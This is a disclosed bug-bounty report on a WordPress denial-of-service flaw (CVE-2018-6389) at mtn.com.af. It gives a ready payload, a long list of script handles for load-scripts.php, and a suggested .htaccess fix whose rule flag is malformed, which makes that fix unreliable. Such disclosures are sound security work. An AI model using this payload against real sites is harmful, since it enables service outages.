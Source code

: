 # [mtn.com.af] Multiple vulnerabilities allow to Application level DoS

## Report Details
- **Report ID**: 946578
- **URL**: https://hackerone.com/reports/946578
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-29T13:05:58.706Z
- **Disclosed**: 2021-09-28T04:52:05.197Z

## Reporter
- **Username**: lmhu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
**Issue Description**
Unauthenticated attackers can cause a denial of service (resource consumption) by using the large list of registered .js files (from wp-includes/script-loader.php) to construct a series of requests to load every file many times.
The vulnerability is registered as [CVE-2018-6389] #761722 #752010 #753491 #335177

**CVE ID Risk Score**
[CVE-2018-6389 7.5](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389)

Platform(s) Affected: [website]
*.https://www.mtn.com.af/wp-admin/load-scripts.php?load=

###Steps To Reproduce:
  * Open Vulnerability url - open directory ``/wp-admin/load-scripts.php?load=``
  * Add ``parameter-vulnerable`` in request header
  * In request header using GET-Method
  * Show url opened , and check in network websites has been vulnerable stack-red
  * Response has been truncated

**Payloads Vulnerabilities**
```
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
**How to fix:**
```javascript
RewriteCond %{QUERY_STRING} ^.{1000,}$
RewriteRule ^WP-ADMIN/LOAD-SCRIPTS.PHP$ - f
```
add this to your .htaccess

## Impact

CVE-2018-6389

## Attachments
No attachments
